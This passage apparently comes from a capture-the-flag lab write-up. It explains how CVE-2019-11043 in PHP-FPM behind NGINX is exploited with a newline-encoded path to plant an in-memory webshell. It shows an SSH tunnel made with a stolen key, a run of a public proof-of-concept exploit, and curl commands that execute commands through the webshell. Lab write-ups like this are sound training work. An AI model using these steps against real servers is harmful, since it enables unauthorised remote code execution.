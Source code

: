 ```

fastcgi_split_path_info ^(.+?\.php)(/.*)$;

```

The attack involves putting a `%0a` (url-encoded newline) into the path so that NGINX will set the `env_path_info` variable to empty. PHP-FPM assumes that this will never be empty. By passing in a roughly 2000 byte URI, the attacker can make `path_info`, and manage to overwrite variables in memory to generate a persistent webshell.

#### POC

Googling “CVE-2019-11043 python” found [this GitHub](https://github.com/theMiddleBlue/CVE-2019-11043) repo with a POC. Because this generates a ton of connections, I opted for a direct connection rather than a SOCKs:

```

oxdf@parrot$ ssh -i ~/keys/static-www-data-172.20.0.10 www-data@172.20.0.10 -L 9001:192.168.254.3:80
...[snip]...

```

Running the exploit takes a minute or two, as it’s trying different length requests to find the right overwrite in memory. Eventually, it finds it, and reports that a webshell is now in memory:

```

oxdf@parrot$ python3 /opt/CVE-2019-11043/exploit.py --url http://127.0.0.1:9001/index.php
[*] QSL candidate: 1754, 1759, 1764
[*] Target seems vulnerable (QSL:1754/HVL:219): PHPSESSID=f73b39e0eda602d14224e4095b436f6c; path=/
[*] RCE successfully exploited!

    You should be able to run commands using:
    curl http://127.0.0.1:9001/index.php?a=bin/ls+/

```

Hitting the webshell returns a bunch of errors, but then the output of the command:

```

oxdf@parrot$ curl http://127.0.0.1:9001/index.php?a=/bin/ls+/
[05-Aug-2021 00:43:52 UTC] PHP Warning:  Unknown: failed to open stream: No such file or directory in Unknown on line 0
[05-Aug-2021 00:43:52 UTC] PHP Fatal error:  Unknown: Failed opening required 'a' (include_path='/tmp') in Unknown on line 0
[05-Aug-2021 00:43:53 UTC] PHP Warning:  Unknown: failed to open stream: No such file or directory in Unknown on line 0
[05-Aug-2021 00:43:54 UTC] PHP Warning:  Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www/html/index.php on line 2
...[snip]...
[05-Aug-2021 00:44:14 UTC] PHP Warning:  Unknown: Unable to load dynamic library 'bin
boot
dev
entry.sh
etc
home
lib
lib64
media
mnt
opt
php-src
proc
root
```